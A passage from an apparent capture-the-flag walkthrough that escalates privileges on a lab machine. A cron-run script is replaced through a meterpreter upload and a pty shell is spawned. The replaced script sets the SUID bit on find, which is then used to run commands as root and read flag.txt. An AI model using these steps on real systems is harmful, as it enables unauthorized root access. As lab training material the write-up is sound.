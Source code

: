 ![](https://i0.wp.com/4.bp.blogspot.com/-lHsNInCgS7g/W11JuR1SeVI/AAAAAAAAYtc/irrmFz62V208c05zhnsQ2C4-Z_fn3uuPACLcBGAs/s1600/11.png?w=687&ssl=1)  
Now, all that was left to do was to upload this new shell script onto the server and replace it with the original file.  
So, we background the shell (**CTRL+Z**)  
and used meterpreter upload command.  

upload /root/Desktop/CleaningScript.sh . shell python -c 'import pty;pty.spawn("/bin/bash");' date

1

2

3

4

upload  /root/Desktop/CleaningScript.sh  .

shell

python  \-c  'import pty;pty.spawn("/bin/bash");'

date

We observed the time and waited for exactly 5 minutes for the script to run automatically.  
![](https://i2.wp.com/1.bp.blogspot.com/-MD2Vex27QMo/W11JuTZrq0I/AAAAAAAAYtY/NDqhDyrJUmo-0G0lhUdrc-sUa__HBGCDACLcBGAs/s1600/12.png?w=687&ssl=1)  
After 5 minutes:  

ls -la /usr/bin/find

1

ls  \-la  /usr/bin/find

Permissions modified: -rwsr-xr-x  
The sticky bit got set! Now we just need to use the find inline command execution:  

find /home -exec whoami \\;

1

find  /home  \-exec whoami  \\;

As you can see all the users got enumerated as **root**.  

find /home -exec ls -la /root \\;

1

find  /home  \-exec ls  \-la  /root  \\;

Hence, we can execute any command as root now!!  
![](https://i0.wp.com/1.bp.blogspot.com/--3q1W9IdrYA/W11JvRT4hxI/AAAAAAAAYtg/ZpM4JeH0l9Ma-iuYGcErvG0KPon4DG_tQCLcBGAs/s1600/13.png?w=687&ssl=1)  
A file called flag.txt was visible in the root directory.  

find /home -exec cat flag.txt \\;

1

find  /home  \-exec cat flag.txt  \\;
